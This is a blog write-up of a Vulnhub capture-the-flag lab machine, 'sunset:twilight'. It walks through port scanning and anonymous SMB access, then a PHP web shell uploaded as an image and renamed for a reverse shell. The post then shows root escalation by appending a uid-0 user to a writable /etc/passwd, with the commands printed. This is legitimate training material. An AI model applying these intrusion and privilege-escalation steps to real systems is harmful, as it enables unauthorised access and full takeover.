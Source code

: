 ```yaml
---
layout: post
title:  "Vulnhub - sunset:twilight"
date:   2020-08-28 00:00:00 +1000
category: hacking
---
```


## Introduction
*Easy/Intermediate (May variate depending on your background)  
It is recommended to run this machine in Virtualbox.  
This works better with VirtualBox rather than VMware*

Okay let's see what we can do with this.

## VMWare vs VirtualBox
I run Kali in VMWare but I do have VirtualBox too. I downloaded the [file](https://www.vulnhub.com/entry/sunset-twilight,512/) as the .7z archive and unzipped it, then imported the applicance into VirtualBox. For networking it defaults to Bridged Mode and that works okay; I check my router for DHCP leases and get the IP - 192.168.1.76.

The banner says it's *Debian GNU/Linux 10 twilight tty1*. Running a ping on the IP gives a TTL of 128; not sure what's up with that.

## Nmap
So we've got quite a selection of ports:

- 22/tcp    open  ssh          syn-ack ttl 128
- 25/tcp    open  smtp         syn-ack ttl 128
- 80/tcp    open  http         syn-ack ttl 128
- 139/tcp   open  netbios-ssn  syn-ack ttl 128
- 445/tcp   open  microsoft-ds syn-ack ttl 128
- 2121/tcp  open  ccproxy-ftp  syn-ack ttl 128
- 3306/tcp  open  mysql        syn-ack ttl 128
- 8080/tcp  open  http-proxy   syn-ack ttl 128
- 63525/tcp open  unknown      syn-ack ttl 128

We'll probably need some more details on those, so I kick off a detail scan. In the meantime...

## 2121/FTP
Port 2121 is FTP and anonymous login is allowed but there is nothing interesting in the directory and we can't move around, so that's not very useful.

## SMB

SMB anonymous login is allowed, so we can poke around the server:

{% highlight shell %}
root@kali:/opt/vulnhub/twilight# smbclient -L \\192.168.1.76
Enter WORKGROUP\roots password: 

	Sharename       Type      Comment
	---------       ----      -------
	WRKSHARE        Disk      Workplace Share. Do not access if not an employee.
	print$          Disk      Printer Drivers
	IPC$            IPC       IPC Service (Samba 4.9.5-Debian)
SMB1 disabled -- no workgroup available
{% endhighlight %}

We should check out that *WRKSHARE* folder.

``
root@kali:/opt/vulnhub/twilight# smbclient \\\\192.168.1.76\\WRKSHARE
``

This is actually the server root (assuming we're not in a container), so that's nice. I get **/etc/passwd** and can see we have a user called *miguel* in **/home**, but we can't read his directory. Checking **/var/www/html** we can poke around the files that make up the website on port 80, and there is an upload function in http://192.168.1.76/gallery/ - maybe we can use this for a shell?

## Shell

Sure enough we can upload a PHP shell as **shell.jpeg** through the web interface on port 80, then rename it via the SMB connection to **shell.php**. From there we can access it via http://192.168.1.76/gallery/original/shell.php and get a reverse shell back to our attack machine.

## Privesc
As usual I ran linpeas, and it highlighted that **/etc/passwd** was writeable, along with some other interesting things. I'm guessing there are a few paths to root on this box. Anyway, with a writeable passwd file, we can add a new user with a new password using this technique from [stackexchange](https://security.stackexchange.com/questions/151700/privilege-escalation-using-passwd-file).

{% highlight html %}
# to generate hash of the password
openssl passwd mrcake
hKLD3431415ZE

# to create a second root user with "mrcake" password
echo "root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash" >> /etc/passwd

# to switch to a root2
su root2
Password: mrcake 
{% endhighlight %}

Let's try it out, and we'll even use his 'mrcake' password suggestion:

{% highlight shell %}  
www-data@twilight:/dev/shm$ openssl passwd mrcake
hKLD3431415ZEopenssl passwd mrcake
eAZbSNI9j8A7A
www-data@twilight:/dev/shm$ echo "root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash" >> /etc/passwd
<Y0mgH0RtUI:0:0:root:/root:/bin/bash" >> /etc/passwd
www-data@twilight:/dev/shm$ su root2
su root2
Password: mrcake

root@twilight:/dev/shm# 
{% endhighlight %}

Boom. There is a flag in /root/root.txt, but there's nowhere to submit it so it doesn't really matter.

{% highlight shell %} 
cat root.txt
(\ 
\'\ 
 \'\     __________  
 / '|   ()_________)
 \ '/    \ ~~~~~~~~ \
   \       \ ~~~~~~   \
   ==).      \__________\
  (__)       ()__________)


34d3ecb1bbd092bcb87954cee55d88d3
{% endhighlight %}

## Footnote
I haven't been writing much lately, been stuck on some intermediate stuff on TryHackMe and not moving forward much. I did complete the 'Git Happens' room though, which was a very straightforward enumeration of a git repo to find some credentials. I also completed OpenKeyS on HackTheBox but I'm not allowed to write that up just yet. I've never bothered writing up a HTB machine yet, since I've moved on by the time they become inactive. Maybe one day.
